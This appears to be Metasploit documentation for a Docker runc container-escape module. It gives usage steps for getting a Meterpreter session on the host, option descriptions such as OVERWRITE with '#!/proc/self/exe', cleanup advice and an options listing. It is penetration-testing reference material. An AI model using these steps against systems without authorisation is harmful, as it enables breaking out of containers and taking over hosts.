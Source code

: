 #### shell
The shell binary inside the container (set by the `OVERWRITE` option) will also
be overwritten. However, the module makes a backup prior to the overwrite and
restores it automatically. This process is relatively safe, but something can
still go wrong along the way. Again, this will need to be done manually, using
the information displayed during the module execution:
```
cp <path to the shell binary backup> <path to the shell binary>
```

## Verification Steps
1. Install Docker (see [Installation](#installation))
1. Start msfconsole
1. Get a session as root inside a Docker container
1. Do: `use linux/local/docker_runc_escape`
1. Do: `set LHOST <ip>`
1. Do: `set LPORT <port>`
1. Do: `set session <session nb>`
1. Do: `run`
1. On the host target, run `docker exec -ti <container_id> /bin/sh`
1. You should get a Meterpreter session.
1. Verify you escaped the Docker container
1. Verify `WRITABLEDIR` on the host is empty (cleanup successful)
1. Verify `docker-runc` has been restored by running `docker-runc --version`

## Options

### OVERWRITE

The shell that is going to be overwriten with `#!/proc/self/exe`. This will be
triggered by a user running `docker exec -ti <container_id> <overwritten
shell>`. Default is `/bin/sh`.

### SHELL

The shell the module will use in scripts (must be different than `OVERWRITE`
shell). During the execution, some shell script have to be executed in the
Docker container. Since the main `OVERWRITE` shell has been overwritten,
another shell must be used. Default is `/bin/bash`.

### WRITABLEDIR

A directory where you can write files. Default is `/tmp`.

## Scenarios

## Docker version 18.03.1-ce (build 9ee9f40) on Ubuntu 18.04.5 LTS
```
msf6 exploit(linux/local/docker_runc_escape) > options

Module options (exploit/linux/local/docker_runc_escape):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   OVERWRITE    /bin/sh          yes       Shell to overwrite with /proc/self/exe
   SESSION      1                yes       The session to run this module on.
   SHELL        /bin/bash        yes       Shell to use in exploit script (must be different than OVERWRITE shell)
   WRITABLEDIR  /tmp             yes       A directory where you can write files.


```